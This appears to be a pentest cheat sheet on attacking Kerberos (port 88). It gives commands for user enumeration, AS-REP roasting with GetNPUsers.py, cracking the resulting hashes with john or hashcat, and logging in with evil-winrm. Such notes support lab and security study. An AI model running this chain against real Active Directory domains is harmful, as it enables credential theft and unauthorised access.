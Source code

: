# Kerberos (Port #88)
Kerberos is a network authentication protocol used to provide secure authentication in client-server applications. It uses tickets to authenticate users, and these tickets are issued by a Kerberos authentication server (AS) after the user logs in. The ticket-granting ticket (TGT) is a special ticket that is issued by the AS after the user successfully authenticates. The TGT is then used by the user to obtain service tickets for specific services.

---
## Enumerate User Information
```
▶ enum4linux {TARGET_IP}
```
A bunch of usernames will be returned but no passwords. If Kerberos pre-authentication is disabled on any of the returned accounts, the impacket script `GetNPUsers.py` can be used to send a dummy request for authentication. The Key Distribution Center (KDC) will then return a TGT that is encrypted with the user’s password. From there, we can take the encrypted TGT, run it through a password cracker and brute force the user’s password.

---
## Obtain Encrypted User Password
```
▶ GetNPUsers.py {TARGET_DOMAIN} -usersfile domain_users.txt -outputfile users_password_hashes.txt -dc-ip {TARGET_DOMAIN_CONTROLLER_IP}
```

It is assumed the Impacket script `GetNPUsers.py` requires a username as a parameter and therefore the script is usually ran on all the usernames that were found. However, it turns out that the script can be used to output both the vulnerable usernames and their corresponding encrypted TGTs.
```
▶ GetNPUsers.py {TARGET_DOMAIN} -outputfile users_password_hashes.txt -dc-ip {TARGET_DOMAIN_CONTROLLER_IP} -request
```

### Crack Hash to Obtain Clear Text Password
```
▶ john --wordlist=/usr/share/wordlists/rockyou.txt users_password_hashes.txt
```
OR
```
▶ hashcat -m 18200 users_password_hashes.txt rockyou.txt --force
```

---
## Login to Target with Username & Password
```
▶ evil-winrm -i {TARGET_IP} -u {USERNAME} -p {PASSWORD}
```
